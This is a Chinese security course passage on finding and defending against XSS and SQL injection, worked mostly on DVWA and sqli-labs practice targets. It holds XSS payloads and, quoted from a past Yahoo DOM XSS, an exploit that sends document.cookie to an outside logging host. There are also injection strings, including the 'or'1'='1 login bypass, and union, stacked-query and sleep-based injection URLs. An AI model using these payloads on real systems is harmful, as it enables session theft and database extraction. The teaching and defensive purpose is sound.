白盒测试 是通过分析源代码来检测 XSS漏洞，根据不同的编程语言采取不同 的词法、语法分析方式，然后通过污点分析（追踪用户的输入数据是否达到特定 的漏洞触发函数）的思路来检测漏洞。
我们来具体了解一下这两种方法。
黑盒测试
对于测试人员，多数情况下是没有目标网站的源码，对这种无源码的网站测试， 我们称为黑盒测试。下面我会从人工测试和工具自动测试两方面来讲解一些常用 的黑盒测试技术。
人工测试
人工测试的主要思路就是在一切可输入数据的地方输入“XSS payload”（测试 用例），这些地方包括所有的 GET、POST、Cookie、HTTP头。提交数据之后，看 网站的输出是否解析了前面输入的 XSS payload。
我常用的 XSS payload 有以下几个。搜索“XSS cheat sheet”，也可以找到很 多这种测试用例。
平时测试时，我喜欢先将上面的 XSS payload 整理放在一个 txt文件中，然后 用数字区分每个用例，比如：
<XSS id=x tabindex=1 onactivate=alert(1)></XSS> <body onafterprint=alert(2)> <XSS onafterscriptexecute=alert(3)><script>1</script> <body onbeforeprint=alert(4)> <svg><animate onbegin=alert(5) attributeName=x dur=1s> ……
然后将其一次性全复制进输入框中测试，看提交后有没有弹框，若弹框了，通过 对应数字就能知道是哪个测试用例被成功执行了。有时输入长度有限制，就只能 一个个测试，然后根据响应内容做一些调整。
上面这种测试方法相对暴力一些，有时网站有自己的一些数据处理逻辑（过滤、 编码、输入类型判断等等），这时就需要一些探测性的输入，比如输入以下字符 串：
"'<script>;&#,/=(12345)
在返回页面的源码中搜索 12345的输出位置，以及上面这些特殊字符的过滤情况。
以 DVWA 靶场中的 XSS（Reflected）题目为例。在 DVWA Security 中安全等级 为High，如下图所示：
图 1：设置 DVWA 安全等级为“High”
先在题目中输入前面那串测试字符串去探测下：
图 2：输入测试字符串
在网页中右击菜单，选择“检查”查看源码，直接搜索“12345”，可以看到数据的输出位置：
图 3：查看源码定位输出位置
可以发现，输出位置在=<pre>=标签内，并且过滤掉了“<script”（不包括引 号）。尝试输入以下字符串看是否会有转机：
"'<scr<scriptipt>;&#,/=(12345)
结果发现还是没用：
图 4：更改测试字符串
既然没法用 <script> 标签，我们就换个其他的标签试下。如果你不熟悉测试
用例，可以回头翻看下前面介绍的XSS cheat sheet。这里我改用了 <img> 标
签（下面的数字一样都是为了方便搜索源码）：
<img>12345
图 5：测试< img >标签
可以看到， <img> 被解析了。前面我们已经测试过，各种特殊字符也没过滤。
这样我们就可以构造完整的测试用例试下：
<img src=a onerror=alert(1)>
成功弹出提示框：
图 6：成功利用< img>标签执行任意 JS 代码
返回数据如下，输入数据都被完整地解析执行。
图 7：被解析的代码
这里我总结一下人工测试思路：日常收集一些 XSS cheat sheet，然后编号整理 出来，用于日常测试用例；你可以先一次性批量输入测试，如果无效，再输入一 些特殊字符看过滤情况，根据返回数据作相应的调整测试。
除了一些比较深的操作入口，并且涉及一些前置的操作条件（比如验证码、开启 特定设置之类的），不然多数情况下，整个过程其实可以通过自动化工具实现。
工具自动化测试
在《01 |武器库：常用的渗透测试工具》中我介绍了一些常用的渗透测试工具， 里面有支持XSS 扫描的工具，比如 AWVS、Xray、Goby 这类综合型扫描器。
这里我推荐一款专门针对 XSS漏洞扫描的开源工具，XSStrike，它在业内也是有 一定名气的。由于开源，非常有利于自己添加XSS payload，或者做二次开发。
XSStrike 支持很多功能，比如 DOM XSS扫描（基于正则扫描敏感函数，存在一 定误报）、WAF检测与绕过、爬虫、HTML＆JS 动态解析引擎验证。常用的测试命 令如下：
爬虫整个网站进行 XSS 扫描： python3 XSStrike.py -u "http://testphp.vulnweb.com/" --crawl 针对单个 URL 进行扫描： python3 XSStrike.py -u "http://localhost/vulnerabilities/XSS_r/?name=a"
以 AWVS 的在线靶场为例，它可以检测搜索框存在的 XSS 漏洞：
图 8：XSStrike
XSStrike 功能比较全面，但也会存在误报，而且告警结果展示的体验不是很好。
因此，这里再推荐另一款工具，叫NoXSS。它的特点就是批量扫描速度快，而且 告警展示效果比XSStrike 好，但漏洞检测能力不如XSStrike，你可以把这两款 搭配着使用。NoXSS的使用方法也很简单，常用命令如下：
python start.py --url="http://localhost/vulnerabilities/XSS_r/?name=a"
图 9：NoXSS
DOM XSS 的扫描相比常规 XSS 要难一些，主要是针对 JS代码的分析，如果只是 简单的正则匹配，就很容易误报漏报。所以针对 DOM XSS的检测，除了常规的 XSS payload暴力测试、正则匹配检测代码外，还可以基于以下几种常见方法来 检测 XSS。
- Headless Chrome：利用无界面 Chrome 浏览器来检测XSS，参考《基于 Chrome-headless 的XSS 检测》，这是目前主流的动态检测方法。
- QtWebKit：参考《基于QtWebKit 的 DOM XSS 检测技术》，QtWebKit 作者已 停止维护。
- PhantomJS：已停止维护。它提供一套基于 WebKit 的服务器端 JavaScript API，可以在无浏览器支持的情况下实现 Web 浏览器功能的支持，例如 DOM处 理、JavaScript、CSS 选择器、JSON、Canvas 和可缩放矢量图形 SVG等功能。
这些方法可以实现动态解析 JS，以验证特意构造的 XSS payload是否被执行， 从而准确地判断是否存在 XSS 漏洞。
这种动态检测 DOM XSS 的工具，个人特别推荐 Dominator。它是基于 Firefox 改造的，在一些关键的输入输出函数添加Hook，如果发现有用户可控数据输出到 一些 sink漏洞触发函数上就会告警。它的特点是发现率高，虽然也有不少误报。 此前我用它发现了不少国内知名网站的DOM XSS，有些不同域名的网站引用到同 一个漏洞 JS文件，导致一个漏洞影响一大批网站。
以之前一些 Yahoo DOM XSS 为例，当你用 Dominator访问了存在漏洞的页面后， 可以看到其输出的告警内容如下：
图 10：用 Dominator 检测 DOM XSS
提示 windows.name 输入数据被直接传递给 eval 函数，也就是说如果你能控制 windows.name 的值，就可以实现任意 JS代码的执行。利用起来也非常简单，我 们可以看下漏洞发现者 Abysssec公司发布的利用代码：
<html> <script> window.name=' new Image().src="http://abysssec.com/log/log.php?cookie="+encodeURI(document.cookie); setTimeout(\"location.href = \'http:\/\/www.yahoo.com\';\",10);'; location.href="http://adspecs.yahoo.com/index.php"; </script> </html>
利用思路就是直接设置 window.name 参数，插入打算执行的 JS 代码，然后用 location.href跳转到漏洞页面去触发。这类漏洞我在网易的一些网站上也发现 了不少，也是用Dominator 挖掘到的，所以个人比较推荐。
白盒测试
如果我们有网站源码，就可以直接通过分析源码来挖掘漏洞。网站开发语言非常 多，JavaScript、PHP、Python、Go、C/C++等等都可以用来开发网站的前端和后 端。不同的语言有不同的特性，在源码审计时需要采取不同的检测点，但有一个 共同的思路，那就是*污点分析的检测思路*。
前面我已经简单地提到污点分析原理就是检测用户可控的输入数据，污点也就是 用户可控的输入数据。然后我们去追踪污点的传播过程，检测是否传递给危险的 输出函数。对于XSS 就是能够控制页面内容或者执行 JS 的输出函数有 echo、 eval等。
有时我们也会反着来：先查看一些危险的输出函数，再回溯它的参数传递，判断 是否有未经过滤的用户输入数据，若有就代表可能存在漏洞。其他漏洞类型，以 及其他编程语言的代码审计方式都是相通的，只是有不同的sinks 和过滤函数需 要作为检测点。

图 11：污点分析流程
以 PHP 源码审计为例，常见的污点 source 有以下这些：
关于 XSS 常见的污点触发位置 sink 有以下这些：
我在审计代码时，习惯使用 VSCode 和Sublime，你可以根据自己的喜好选择一 款合适的代码阅读软件，然后批量搜索文件中的sink 位置，再往上回溯追踪是 否有引入 source污染数据；若引入了，有没有做好过滤转义等安全工作。
关于 DOM XSS 的审计，主要是针对 JS 代码的审计，关于它的 srouces & sinks，我已在《 04｜XSS：劫持身份的惯犯 》的图 14中给出，此处不再赘述； 你也可以按照污点分析的思路去做 JS 代码审计。
主流的自动化源码审计工具有 RIPS、Coverity、CheckMarx等等，都是一些商业 软件。近两年也有一些优秀的开源项目贡献，比如Kunlun-M，目前作者仍在更新 维护中。如果你或者你所在的公司没有条件采购商业软件，这也是一个不错的选 择。
防御 XSS 攻击
以前在面试一些同学时，问他们怎么修复XSS，都会说做好过滤，但具体怎么做 过滤，很多都答不上来。有的会简单说下做HTML 实体化编码，比如用 htmlspecialchars 函数，但其实这是错误的。XSS的防御必须根据不同的触发位 置采取不同的防御方案，下面我们来详细了解一下。
输入检查
在测试 XSS时，经常需要输入一些特殊字符，所以在一开始直接做好输入检查有 利于减少攻击的可能性。我在协助业务修复漏洞的时候，经常推荐的方法就是白 名单限制，比如参数是个整数值，那直接限制死即可，若不符合就抛异常。不要 单纯只想着过滤替换特殊字符，这很容易就被绕过了。
如果白名单范围不好确定，我就会采用黑名单的方式，把常用的 XSS payload特
殊字符或字符串做检测，比如 <script> 、javascript:、<、>、'、"、&、#。
但是黑名单这种方式，有时结合业务场景，以及浏览器特性，就有可能找到绕过
方法。
还有一定不要单纯只在客户端上做过滤，还要结合服务端做限制。若只是客户端 上做过滤，那么抓包后修改数据重发就绕过了。
输出检查
跨站漏洞的触发关键点就在于 输出的位置 ，所以对输出进行检查尤为重要。
以前百度 Hi 空间有个 XSS 漏洞，官方后来虽然修复了， 但发现者的百度 Hi 空间仍存在 XSS 弹框。这正是因为官方的修复方案中只做了输入检查，没有过 输出检查，导致以前曾被利用过的XSS payload 仍然有效。如果在官方修复前， 那个 XSS 漏洞已经被恶意利用了，那即使已经通过输入检查方法修复了，被插 入的恶意代码仍会存在，这可以认为是修复不彻底的表现。
有时网站需要支持富文本（用户自定义的 HTML代码），比如为方便用户而保留
的 <a> 链接标签，此时采用白名单的方式，直接限制允许输入的标签、字符
是最佳方案。
那我们应该如何根据不同的位置采取不同的 XSS防御方案呢？我整理了一份表格 （由于 DOM XSS情况特殊，我会单独用一个小节来介绍）。
防御 DOM XSS
DOM XSS 是一种特殊的 XSS类型，前面介绍的一些防御方法并不那么通用，需要 根据输出位置做不同的防御方法。同样的，我整理了一份DOM XSS 防御方案表格， 供你参考。
Content Security Policy
内容安全策略（Content Security Policy，CSP）也是减少 XSS 攻击的一种方 式，是浏览器提供一种防御机制。它采用的是白名单机制，告诉浏览器可以加载 和执行哪些外部资源，这样就能防止被一些第三方恶意脚本注入执行。
开启 CSP 有两种方式：
（1）通过 HTTP 头信息的 Content-Security-Policy 的字段：
Content-Security-Policy: script-src 'self'; object-src 'none';style-src cdn.example.org third-party.org; child-src https:
（2）通过网页的=<meta>=标签设置：
<meta http-equiv="Content-Security-Policy" content="script-src 'self'; object-src 'none'; style-src cdn.example.org third-party.org; child-src https:">
这里我对一些常用字段先做个解释：
常用指令值解释如下：
之前有次测试，发现了一个 XSS漏洞，但死活利用不成功，搞半天一直没找到原 因，后来发现正是 CSP 限制了 JS资源的加载执行。
我平时测试时喜欢使用 CSP Evaluator 插件查看网站的 CSP 设置情况。Gmail 的CSP 设置情况如下图所示：
图 13：Gmail 的 CSP 设置
在实际测试 XSS 时，有时也需要注意下 CSP 情况，避免折腾半天也没找到 XSS 利用失败的原因。现在 Google 内部一直在大力推行 CSP，这确实是一种防御 XSS攻击的有效办法。
总结
这一讲我介绍了黑盒测试和白盒测试这两种挖掘 XSS 漏洞的方法，并针对不同 的XSS 情况推荐了不同的防御方案，算是一份 XSS漏洞修复方案指引。同时，我 还介绍了一些在企业中经常用来防御 XSS攻击的方法：HttpOnly 和 CSP。它们 可以有效减少 XSS攻击带来的危害，但不能单纯依靠它们来防御 XSS，关键还是 要避免漏洞的发生。
如果你对 XSS漏洞的防御方法还有任何疑问，欢迎留言讨论。下一讲，我将带领 你踏上 SQL注入的攻防之路。
SQL 注入：小心数据库被拖走
你好，我是赢少良。我们现在来到了 SQL 注入的学习，这里我会主要介绍 SQL 注入漏洞的产生原理、利用、检测和防御。相信学完后，你就知道：
- 为什么 'or'1'='1 是个万能密码；
- 攻击者会如何进一步利用漏洞发动攻击窃取数据库；
- 开发如何检测和防御 SQL 注入漏洞。
这一讲，我主要讲解 SQL 注入与数据库拖库问题。
十几年前，我在网上偶然间看到一篇文章，号称有可登录任意网站管理后台的万 能密码，只要在用户名和密码中均输入'or'1'='1（注意单引号的使用）即可登 录后台。当时感觉特别神奇，也有点质疑，于是，我通过Google搜索了几个网站 后台，没想到有一个真的登录进去了，还可以直接修改主页内容。我没有动，给 管理员留言后就退出了。
后来，从网友那得知有个叫“明小子”的工具，专门用于检测和利用 SQL注入漏 洞，使用起来非常“傻瓜”。如果你很早接触过安全，相信对下面的界面图再熟 悉不过了。这是我第一次听说“SQL注入”这个词，知道了它属于 Web 漏洞中非 常常见的一种漏洞。
图 1：“明小子”工具
目前 PHP + MySQL + Linux一直是网站搭建的主流环境，我们也是在此环境下演 示的。其他数据库系统不再介绍，你可自行搜索相关资料拓展学习。同时，为了 简化环境搭建的工作，推荐使用Docker 安装 sqli-labs作为靶场来实践，具体 安装方法可参考《03 | 靶场：搭建漏洞练习环境》中的内容。
SQL 注入产生的原因
以 sqli-labs 第 11 题为例，该题模拟后台登录页面，其 Username 与 Password均存在 SQL 注入漏洞。该题的 PHP 源码可直接点击Github链接查看， 也可以进 Docker 容器内查看。
为方便理解，我把 PHP 源码贴出来，并加上了注释：
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))
{
$uname=$_POST['uname']; // 用户输入的用户名
$passwd=$_POST['passwd']; // 用户输入的密码
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'User Name:'.$uname);
fwrite($fp,'Password:'.$passwd."\n");
fclose($fp);
// connectivity
// 未经过滤，直接将用户输入带入 SQL 语句进行查询，最终导致 SQL 注入
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
if($row)
{
// 查询到数据就登录成功
//echo '<font color= "#0000ff">';
echo "<br>
";
echo '<font color= "#FFFF00" font size = 4>';
//echo " You Have successfully logged in\n\n " ;
echo '<font size="3" color="#0000ff">';
echo "<br>
";
echo 'Your Login name:'. $row['username'];
echo "<br>
";
echo 'Your Password:' .$row['password'];
echo "<br>
";
echo "</font>";
echo "<br>
";
echo "<br>
";
echo '<img src="../images/flag.jpg" />';
echo "</font>";
}
else
{
// 登录失败
echo '<font color= "#0000ff" font size="3">';
//echo "Try again looser";
print_r(mysql_error());
echo "</br>";
echo "</br>";
echo "</br>";
echo '<img src="../images/slap.jpg" />';
echo "</font>";
}
}
?>
可以看到，用户在登录框输入的用户名及密码未经过滤就直接传入以下 SQL 语句：
SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1
如果此时我在 Username 中输入英文单引号，那么 SQL 语句就变成：
SELECT username, password FROM users WHERE username=''' and password='' LIMIT 0,1
这里 username 没有闭合，会导致语法错误：
You have an error in your SQL syntax；check the manual that corresponds to your MySQL server version for the right syntax to use near '''' and password='' LIMIT 0,1' at line 1。
图 2：username 没有闭合导致的语法错误
还记得开头提到的万能密码吗？我们输入试试：
图 3：输入万能钥匙
成功登录了！那为什么会这样呢？
我们先来看下输入万能密码后，SQL 语句的构成：
SELECT username, password FROM users WHERE username=''or'1'='1' and password=''or'1'='1' LIMIT 0,1
可以发现 username 和 password 为空或者 '1'='1' ，而 '1'='`' 永远为 真，SQL语句必然成立。只要能查询到有效数据就可以登录，或者后面随便回句 永远为真的语句就能够绕过验证登录，这就是万能密码存在的原因。
相信看到这里，你对 SQL注入产生的原因应该有所理解了。简单来讲，就是开发 时未对用户的输入数据（可能是GET 或 POST 参数，也可能是 Cookie、HTTP 头 等）进行有效过滤，直接带入 SQL语句解析，使得原本应为参数数据的内容，却 被用来拼接 SQL语句做解析，也就是说， 将数据当代码解析，最终导致 SQL 注入漏洞的产生 。
关于此类漏洞的防御我会在《09 | CSRF 漏洞：谁改了我的密码？》中介绍。
SQL 注入的分类
我们接着来了解 SQL注入的分类。根据注入点（比如漏洞参数）的数据类型不同， SQL注入可以分为两类：数字/整数型注入和字符型注入。
数字/整数型注入
注入的参数为整数时就是数字型注入，或者叫整数型注入。其 SQL语句原型类似：
SELECT * FROM table WHERE id=1
此处 id 参数为整数，两边无引号。测试时可以使用 1+1 和 3-1这种计算结果 相同的参数值去构造请示，对比响应结果是否一致，如果相同就可能在数字型注 入。
字符型注入
注入参数为字符串时就是字符型注入，其 SQL 语句原型类似：
SELECT * FROM table WHERE name='test'
此处的 name 为字符串参数，两边包含引号。
其他资料也有给出第 3种分类： 搜索型注入 ，但我认为它本质上属于字符型 注入，只是相对特殊一点，存在于搜索语句中。此类注入常常以% 为关键字来闭 合 SQL 语句。
区分数字型与字符型注入的最简单办法就是看 是否存在引号 。在有源码的情 况下很好判断，若无源码，可以尝试输入单引号看是否报错，同时也可以直接根 据输入参数的类型做初步判断。
了解了 SQL注入的分类后，就可以针对不同的注入类型采取不同的注入测试技术。
SQL 注入测试技术
我认为当前 SQL 注入利用工具中，sqlmap 无疑是王者。它涵盖了 SQL注入检测、 利用、防御绕过、扩展、getshell等多种功能，功能全面且工程化，是学习研究 SQL 注入绕不开的工具。
如果你查看 sqlmap 的命令帮助信息，可以发现它使用的 SQL 注入技术共有以 下6 种，默认全开，对应的参数值为“BEUSTQ”，如下所示：
Techniques: These options can be used to tweak testing of specific SQL injection techniques --technique=TECH.. SQL injection techniques to use (default "BEUSTQ")
BEUSTQ 的参数含义如下：
- B，Boolean-based blind（布尔型盲注）；
- E，Error-based（报错型注入）；
- U，Union query-based（联合查询注入）；
- S，Stacked queries（多语句堆叠注入）；
- T，Time-based blind（基于时间延迟盲注）；
- Q，Inline queries（内联/嵌套查询注入）。
下面我就重点来讲解这 6 大 SQL 注入技术。
布尔型盲注
布尔（Boolean）就是真假两种结果，比如“1=1”为真，“1=2”为假。
前面列举的 SQL 注入是存在错误显示的，很容易判断 SQL语句被注入后出错。 但是，很多时间并没有错误回显，这时就只能“盲注”。我们可以通过对比真假 请求的响应内容来判断是否存在SQL 注入，这就是布尔型盲注。比如，对比注入 参数与“and 1=2”的返回结果，如果两者不同则代表可能存在 SQL 注入。
除了布尔型盲注外，我们还可以采用时间延迟的方式来盲注，我在后面会讲到。
图 4：正常访问的页面
以 sqli-labs 第 8 题为例，上图是正常访问后的网页内容。通过 Get 参数 id 实现 SQL 注入，我们直接用前面讲的单引号注入试试，请求地址为
http://localhost/Less-8/?id=1'，返回结果如下：
图 5：单引号注入的返回结果
没有任何错误提示，显示此方法行不通。
下面我们试试布尔型盲注的方法，分别构造以下两个请示，然后对比二者的差异：
其中的 + 号代表空格，执行上述请求后，你会发现返回的页面没有任何变化。 难道真没有SQL 注入吗？
我们来看一下源码：
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
$id=$_GET['id'];
//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'ID:'.$id."\n");
fclose($fp);
// connectivity
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
if($row)
{
// 成功
echo '<font size="5" color="#FFFF00">';
echo 'You are in...........';
echo "<br>
";
echo "</font>";
}
else
{
// 失败，关闭错误回显
echo '<font size="5" color="#FFFF00">';
//echo 'You are in...........';
//print_r(mysql_error());
//echo "You have an error in your SQL syntax";
echo "</br></font>";
echo '<font color= "#0000ff" font size= 3>';
}
}
else { echo "Please input the ID as parameter with numeric value";}
?>
重点就在这句 SQL 语句上：
SELECT * FROM users WHERE id='$id' LIMIT 0,1
注意这里有单引号，所以是字符型注入，我们将前面的测试语句代入：
SELECT * FROM users WHERE id='1'and 1=1' LIMIT 0,1
此处单引号未得到闭合，导致了语法错误，这正是前面测试方法失败的原因。我 们可以考虑用–注释掉。 在URL 请求里要注意在后面加 + ，+ 在 URL 中相当 于空格，加了 + 才能有效注释 。最后我们得到构造语句：
SELECT * FROM users WHERE id='1'and 1=1 -- ' LIMIT 0,1
为了方便验证 SQL 语句，推荐你直接进入 Docker 容器的 MySQL 进行测试：
$ sudo docker ps CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES ea6ec615a39e acgpiano/sqli-labs "/run.sh" 29 hours ago Up 29 hours 0.0.0.0:80->80/tcp, 3306/tcp sqli-labs $ sudo docker exec -it ea6ec615a39e /bin/bash $ root@ea6ec615a39e:/# mysql -u root mysql> use security; mysql> SELECT * FROM users WHERE id='1' LIMIT 0,1; +----+----------+----------+ | id | username | password | +----+----------+----------+ | 1 | Dumb | Dumb | +----+----------+----------+ 1 row in set (0.00 sec) mysql> SELECT * FROM users WHERE id='1 and 1=1' LIMIT 0,1; +----+----------+----------+ | id | username | password | +----+----------+----------+ | 1 | Dumb | Dumb | +----+----------+----------+ 1 row in set, 1 warning (0.00 sec) mysql> SELECT * FROM users WHERE id='1 and 1=2' LIMIT 0,1; +----+----------+----------+ | id | username | password | +----+----------+----------+ | 1 | Dumb | Dumb | +----+----------+----------+ 1 row in set, 1 warning (0.00 sec) mysql> SELECT * FROM users WHERE id='1' and 1=2'' LIMIT 0,1; ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' LIMIT 0,1' at line 1 mysql> SELECT * FROM users WHERE id='1' and 1=2-- ' LIMIT 0,1; Empty set (0.00 sec) mysql> SELECT * FROM users WHERE id='1' and 1=1-- ' LIMIT 0,1; +----+----------+----------+ | id | username | password | +----+----------+----------+ | 1 | Dumb | Dumb | +----+----------+----------+ 1 row in set (0.00 sec)
现在我们按此思路重新构造两个请求。
图 6：请求 1 展示图
图 7：请求 2 展示图
我们可以看到，两次结果是不一样的，主要体现在有无“You are in………..”字符串，此时我们就可以确认 SQL 注入是存在的。
报错型注入
有错误回显的都可以尝试使用报错型注入方法，在 sqli-labs 第 11题中介绍的 单引号注入方式就是最简单有效的检测方法，它的本质是设法构造出错误的SQL 语法使其执行错误。
前面列举的都是字符型注入，这次我们聊下整数型的。以 sqli-labs 第 2题为 例，我们重点看下导致注入的语句：
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
$id参数两边无引号，这是典型的整数型注入。虽然是整数型的，但你使用单引 号注入依然会报错，因为语句未得到有效闭合。
既然我们的目标是让 SQL语法错误，那方法就多了，各种造成语句无法闭合的字 符：单引号、双引号、大中小括号等标点符号、特殊符号、宽字符等，还有SQL 语句中的关键词，比如 IF、SELECT 都可以。
下图是注入中文句号（宽字符）导致的错误：
图 8：宽字符导致的错误
注入关键词 IF 导致的错误：
图 9：注入关键词 IF 导致的错误
拥有错误回显的 SQL注入应该是最容易发现的，但很多时候并不会有错误回显， 这时就需要使用其他盲注方式来验证。
联合查询注入
联合查询是指使用 union 语句来查询，比如：
id =-1 union select 1,2,3
注意这里 id 的值不存在，目前是为了在页面上显示 union 查询结果 。
这样的好处就相当于另起一句 SQL语句，非常适用于获取数据库中一些敏感信息， 而不必过多考虑原有 SQL语句的情况。因此，它在实际的漏洞利用中也经常被使 用。联合查询注入也是验证漏洞可利用性的最佳方法之一，但经常需要结合错误 回显。
我们仍以 sqli-labs 第 2 题为例，先构造以下请求：
http://localhost/Less-2/?id=0 union select 1
得到错误提示“The used SELECT statements have a different number of columns”，也就是字段数有误，如下图所示：
图 10：字段数有误
此时我们可以逐渐增加字段数来找到合适字段数：
回显错误：http://localhost/Less-2/?id=0 union select 1,2 正确：http://localhost/Less-2/?id=0 union select 1,2,3 回显错误：http://localhost/Less-2/?id=0 union select 1,2,3,4
最后发现它共有 3 个字段，我们看看哪些字段显示出来了：
图 11：字段展示
可以发现 2 和 3字段显示在页面中，这里我们就可以进一步构造利用以获取数 据库名和版本信息：
http://localhost/Less-2/?id=0 union select 1,database(),version()
最终，我们成功爆出数据库名为 security，版本为5.5.44-0ubuntu0.14.04.1， 如下图所示：
图 12：成功爆出数据库名
多语句堆叠注入
在 SQL 语句中，允许使用分号间隔多个查询语句来执行。 mysqli_multi_query()函数可以通过分号间隔插入多个查询语句实现堆叠注入。 以 sqli-labs 第 38题为例：
<?php
$id=$_GET['id'];
......
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
/* execute multi query */
if (mysqli_multi_query($con1, $sql))
{
......
}
......
?>
此处正是使用 mysqli_multi_query函数实现的多语句查询。我们可以尝试插入 另一条语句来创建表：
http://localhost/Less-38?id=1';create table sqli like users;
执行前的表：
mysql> show tables; +--------------------+ | Tables_in_security | +--------------------+ | emails | | referers | | uagents | | users | +--------------------+ 4 rows in set (0.00 sec)
执行后，成功创建 sqli 表，说明第二条语句执行成功：
mysql> show tables; +--------------------+ | Tables_in_security | +--------------------+ | emails | | referers | | sqli | | uagents | | users | +--------------------+ 5 rows in set (0.00 sec)
基于时间延迟盲注
基于时间延迟盲注是通过时间延迟来判断是否存在 SQL注入的常用方法，是用于 无任何错误回显情况下的盲注。对于正确语句和错误语句都返回相同内容时也可 以使用，所以它的适用范围相对广一些。
注意：在实际测试过程中，特别是线上业务测试，要避免使用过长时间的延时，否则会影响业务的正常运行。换句话说，能够延时注入就基本代表可以去网站进行拒绝服务攻击。
在 MySQL 常用的延时注入方法中，比较实用的有以下 3 种。
（1） SLEEP(duration) ：该函数用于休眠，起到延时操作的作用，其参数以秒为单位。
mysql> select sleep(5); +----------+ | sleep(5) | +----------+ | 0 | +----------+ 1 row in set (5.00 sec)
（2） BENCHMARK(count,expr) ：重复计算 expr 表达式 count 次。
mysql> select benchmark(10000000,sha(1)); +----------------------------+ | benchmark(10000000,sha(1)) | +----------------------------+ | 0 | +----------------------------+ 1 row in set (2.72 sec)
（3） REPEAT(str,count) ：返回字符串 str 重复 count 次后的字符串。
mysql> select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',50),'b');
+-------------------------------------------------------------+
| rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',50),'b') |
+-------------------------------------------------------------+
| 0 |
+-------------------------------------------------------------+
1 row in set (5.92 sec)
我们以 sqli-labs 第 2 题为例构造请求：
http://localhost/Less-2/?id=1 and sleep(5)--+
在 Chrome 浏览器的 Network 标签内可以看到该请求刚好处时 5秒钟，说明确 实存在漏洞。
图 13：Chrome 标签内展示
内联/嵌套查询注入
使用内联查询来检索数据，本质上是嵌入在另一个查询中的查询，例如：
SELECT (SELECT password from users) from product;
以 sqli-labs 第 2 题为例，结合前面介绍的联合查询来构造请求：
http://localhost/Less-2/?id=0 union select 1,(SELECT username from users where id=2),(SELECT password from users where id=2)
通过以上代码我们可以看到 id=2 的用户名和密码，如下图所示：
图 14：内联/嵌套查询注入
内联/嵌套查询注入方法可以在一句语句中嵌入另一句语句，在有限漏洞场景下 能实现更多的功能，因此在实际的漏洞利用中常被用于实现敏感信息的窃取，甚 至执行系统命令。
总结
这一讲我主要介绍了 SQL 注入的产生原理、分类，以及相关的测试技术。SQL注 入产生的原因是由于开发对用户的输入数据未做有效过滤，直接引用 SQL语句执 行，导致原本的数据被当作 SQL 语句执行。通常来说，SQL注入分为数字型和字 符型注入，我们主要通过注入参数类型来判断。
我还介绍了 6 大 SQL 注入测试技术，这是挖掘和利用 SQL注入漏洞的基础，只 有掌握这些测试技术，才能进一步提升对 SQL注入的理解与实践能力。
SQL注入通常被视为高危或严重的漏洞，一些漏洞奖励平台对此的赏金也会很高， 尤其是在国外，经常在5000 美金以上，甚至有的是几万美金。
在学习之后，你也可以尝试去挖一些国内的 SRC 平台或者国外 HackerOne平台 授权的测试网站。如果你有发现什么有趣的 SQL注入漏洞，欢迎在留言区分享。
这一讲，我会向你介绍二次注入、手工注入和自动化利用漏洞。
上一讲我讲解了 SQL注入漏洞相关的基础知识，漏洞的产生是因为直接将用户输 入的数据带入了 SQL语言。但在特殊情况下，有可能第一次带入参数时做了安全 转义，但开发人员在二次使用时并没有做转义，导致第二次使用时才产生注入， 这就是二次注入。
二次注入
由于单引号常常被用来检测 SQL注入，开发同学经常会把它过滤掉（删除）或者 转义。最常用的方式就是mysql_real_escape_string 函数，它能够对以下几种 常见字符进行转义：
- \x00
- \n
- \r
- \
- '
- "
- \x1a
比如单引号，会在前面添加反斜杠，转义成'，这样就不会直接被当作引号解析 了。mysql_real_escape_string的处理方法对于防范字符型注入有明显的效果， 但有时仍会被绕过，比如整数型注入时采用延时方法检测，以及我要在这里讲的 二次注入。
那二次注入具体是什么呢？这里以 sqli-labs 中的第 24 题为例，我们先看下 login.php 中的关键代码：
function sqllogin(){
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
//$sql = "SELECT COUNT(*) FROM users WHERE username='$username' and password='$password'";
$res = mysql_query($sql) or die('You tried to be real smart, Try harder!!!! :( ');
$row = mysql_fetch_row($res);
//print_r($row) ;
if ($row[1]) {
return $row[1];
} else {
return 0;
}
}
$login = sqllogin();
if (!$login== 0)
{
$_SESSION["username"] = $login;
setcookie("Auth", 1, time()+3600); /* expire in 15 Minutes */
header('Location: logged-in.php');
}
可以发现 username 与 password 两个字符串参数都被 mysql_real_escape_string函数过滤掉了，无法使用单引号去闭合语句进行注入， 只能去尝试其他办法。我们继续往下看。
登录成功后，将用户名保存到 $_SESSION["username"]，然后再跳转到 logged-in.php。我们重新观察页面，发现上面还有 2个功能：忘记密码、创建 新用户。
图 1：sqli-labs 第 24 题
为了寻找漏洞，我们就需要查看网站上的每个功能。先点击“Forgot your password?”看看，它会返回以下提示：
图 2：“Forgot your password?”页面
此时，我们查看该页面对应的源码文件forgot_password.php，发现这里除了上 面的图片，没有其他代码。没办法，我们只能返回去。
注意 ：这一步你可能看我什么都没做，但其实这里是有可能存在漏洞的，只 是在我们的例子中不存在。如果是在其他场景中，请记得检查一下。
返回之后我们点击“New User click here?”按钮再找找。
图 3：“New User click here?”页面
通过浏览器的地址栏可以看到它跳转到 new_user.php 。查看该源码文件，发现 表单数据被提交到 login_create.php 处理：
<form name="mylogin" method="POST" action="login_create.php">
这里我们来重点分析下 login_create.php 的源码：
<?php
//including the Mysql connect parameters.
